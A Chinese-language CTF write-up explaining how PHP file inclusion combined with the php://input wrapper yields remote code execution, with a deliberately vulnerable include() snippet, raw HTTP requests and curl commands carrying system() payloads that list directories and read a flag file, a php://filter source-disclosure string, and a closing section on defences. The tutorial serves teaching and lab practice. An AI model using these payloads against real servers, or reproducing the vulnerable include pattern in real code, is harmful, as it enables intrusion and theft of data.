

一、php://input 是什么
php://input 是 PHP 提供的只读数据流包装器（wrapper），它允许开发者直接访问 HTTP 请求的原始请求体（raw POST data）。
在文件包含漏洞的利用场景中，php://input 是一把利器：当我们能够控制 include() / require() 等函数的文件参数时，传入 php://input，PHP 就会把请求体中的内容当作 PHP 代码来解析执行。
💡 关键前提：
allow_url_include = On（PHP 5.x 部分默认开启，PHP 7+ 默认关闭）
二、利用原理
假设存在如下存在漏洞的代码：
<?php
$file = $_GET['file'];
include($file); // 用户可控！
?>
当我们发送如下请求时：
GET /?file=php://input HTTP/1.1
Host: target.com
Content-Length: 29
<?php system("whoami"); ?>
执行流程如下：
$_GET['file']获取到字符串"php://input"include("php://input")打开php://input数据流- PHP 从 HTTP 请求体中读取内容：
<?php system("whoami"); ?> - 读取到的内容被当作 PHP 代码包含并执行
system("whoami")被执行，返回当前系统用户
三、实战案例：CTFHub 文件包含
下面结合一道 CTFHub 真题，完整走一遍利用流程。
3.1 题目环境
URL: http://<TARGET_IP>:<PORT>/
页面源码大致如下：
<?php
error_reporting(0);
if (isset($_GET['file'])) {
if (strpos($_GET['file'], "flag") !== false) {
echo "hack";
} else {
include($_GET['file']);
}
}
?>
题目逻辑：
- 通过
file参数传入要包含的文件 - 过滤了包含
"flag"字符串的路径 → 直接读/flag会被拦截 - 否则执行
include($file)
3.2 Burp Suite 利用截图
在 Repeater 中构造请求：
Request：
GET /?file=php://input HTTP/1.1
Host: <TARGET_IP>:<PORT>
Content-Length: 34
<?php system("cat /flag");?>
Response：
HTTP/1.1 200 OK
...
ctfhub{xxxxxxxxxxxxxxxxxxxxxxxx}

3.3 关键点解析
| 关键点 | 说明 |
|---|---|
file=php://input |
让 include() 读取 HTTP 请求体作为文件内容 |
| 请求体放 PHP 代码 | <?php system("cat /flag");?> 被当作 PHP 执行 |
绕过了 "flag" 过滤 |
php://input 中不含 "flag" 字符串，成功通过检查 |
system() 执行命令 |
调用系统命令 cat /flag_23859 读取 flag |
四、纯 curl 复现流程
没有 Burp Suite 或蚁剑，用 curl 一样可以打：
步骤 1：确认漏洞存在
curl "http://challenge-xxx.sandbox.ctfhub.com:10800/?file=php://input" \
-d "<?php phpinfo();?>"
如果返回了 phpinfo 页面，说明 php://input 可用。
步骤 2：列目录找 flag 文件
curl "http://challenge-xxx.sandbox.ctfhub.com:10800/?file=php://input" \
-d "<?php system('ls /');?>"
步骤 3：读取 flag
curl "http://challenge-xxx.sandbox.ctfhub.com:10800/?file=php://input" \
-d "<?php system('cat /flag_xxx');?>"
⚠️ 注意：
-d参数默认发送 POST 数据，而php://input读取的是请求体，GET/POST 均可。
五、php://input vs 其他伪协议
PHP 封装协议众多，在文件包含中常用的有：
| 伪协议 | 功能 | 利用条件 |
|---|---|---|
php://input |
访问请求体 | allow_url_include = On |
php://filter |
对文件进行编码/过滤 | 无特殊要求 |
data://text/plain |
内嵌数据 | allow_url_include = On |
file:// |
访问本地文件 | 无特殊要求 |
php://filter 常用于读源码（防止 PHP 被解析）：
?file=php://filter/read=convert.base64-encode/resource=index.php
php://input 则更适合直接 RCE，因为它能执行任意 PHP 代码。
六、防御方法
-
关闭危险配置
allow_url_fopen = Off allow_url_include = Off -
严格过滤用户输入
- 白名单校验：只允许包含特定目录下的文件
- 黑名单过滤：
php://、data://、http://等协议头
-
使用绝对路径
include('/safe/dir/' . basename($_GET['file'])); -
部署 WAF 拦截包含伪协议关键字的请求参数。
七、总结
php://input 文件包含是一种高效、直接的 RCE 利用方式：
- 不需要上传文件
- 不需要服务器存在恶意文件
- 只需控制
include的参数，配合请求体中的 PHP 代码即可执行任意命令
在 CTF 和渗透测试中，遇到文件包含漏洞时，第一时间尝试 php://input 往往是拿下 flag 的最短路径。